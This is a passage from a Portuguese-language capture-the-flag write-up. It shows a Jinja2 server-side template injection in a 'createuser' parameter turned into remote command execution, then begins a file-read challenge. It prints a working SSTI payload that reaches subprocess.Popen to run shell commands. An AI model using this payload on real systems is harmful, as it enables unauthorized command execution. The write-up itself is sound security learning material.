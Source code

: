 Ao tentarmos mandar algum valor no parâmetro "createuser" percebemos que ele reflete o valor:
<img src="/img/aratuctf/Pasted image 20220911181348.png" />

Depois de fazer alguns testes de vulnerabilidades baseadas em reflection, descobrimos que o parâmetro é vulnerável a SSTI com a sintax do jinja2:
<img src="/img/aratuctf/Pasted image 20220911181607.png" />

Explorando a vulnerabilidade conseguimos um RCE e ler a flag:
<img src="/img/aratuctf/Pasted image 20220911182049.png" />

Payload final: `https://whirlwind.boita.tech/?createuser=1{{+%27%27.__class__.__mro__[1].__subclasses__()[232](%27cat+/flag.txt%27,shell=True,stdout=-1).communicate()[0].strip()}}`


## inclusive_policy
Descrição: "This vulnerability looks cool, but where's RCE?"
Target: https://inclusive-policy.boita.tech/

Ao acessar a aplicação ela retorna o source code:
<img src="/img/aratuctf/Pasted image 20220911184306.png" />

Pelo source code podemos facilmente perceber que da pra ler arquivos arbitrários:
<img src="/img/aratuctf/Pasted image 20220911184648.png" />
